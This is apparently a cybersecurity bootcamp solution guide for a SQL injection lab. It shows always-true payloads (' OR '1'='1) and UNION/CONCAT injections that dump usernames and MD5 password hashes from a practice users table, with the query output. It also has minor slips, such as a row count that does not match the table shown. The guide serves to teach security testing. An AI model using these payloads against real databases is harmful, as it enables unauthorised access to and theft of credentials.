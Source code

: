 ## Solution Guide: SQL Refresher and Unintended SQL Queries

In this activity, you designed several malicious SQL payloads that you will use in the next activity to test for SQL injection vulnerabilities against the Replicants live production website.

---

1. `select first_name, last_name from users where user_id = ''`

    - For this query, place a `1` between the single quotes and select Run at the top left of the DB Fiddle page.

      - `select first_name, last_name from users where user_id = '1'`
      
    - After running the query, the program will output the following:
          
        first_name |	last_name
        ------------ | ------------- 
        admin	| admin
      
2. `select first_name, last_name from users where user_id = ''`

    - To use the payload for the most common always true query, add `' OR '1' = '1` to the input.
      
    - The following will cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR '1' = '1' `

    - After running the query, the program will output the following:
      
        first_name | last_name 
        ------------ | ------------- 
        admin | admin
        gordon | brown
        hack | me
        pablo | picasso
        bob | smith
        
3. `select first_name, last_name from users where id = ''`

    - You can use any value for an always true statement as long as it equals itself.

    - The following will also cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR 'dog' = 'dog' `
      
    - The new query will return the same results as the previous query:
        
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   

4. **Bonus:** `select first_name, last_name from users where id = ''`

    - Adding the `UNION` command to the query will allow us to pull data from other fields or tables.

    - When adding an additional command with `UNION`, the count of fields requested (2 - first_name, password) needs to match the count of the original request (2 - first_name, last_name):

      - `select first_name, last_name from users where user_id = '1' UNION select first_name, password from users where '1' = '1'`

    - Note that `UNION` is basically running two queries together:

      - `select first_name, last from users where id = '1'`  

      - `select first_name, password from users where '1' = '1'`
      
    - The query will return the following:
        
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

    - Note that the one result of the first part of the query is returned, followed by the six results of the second query.

5. **Bonus:** `select first_name, last_name from users where id = ''`

    - To pull data from all four fields, the `UNION` and `CONCAT` command can be added to the request.

    - Because the count of fields requested (3 - first_name, last_name, password) needs to match the count of the original request (2 - first_name, last_name), we need to combine two of the fields with the `CONCAT` command, using the following query:

      - `select first_name, last_name from users where user_id = '1' UNION select CONCAT(first_name,last_name), password from users;
               `
            
    - The query will return the following:
        
      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |


    - Note how the first and last names are combined in the `first_name` field, starting with the second record.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
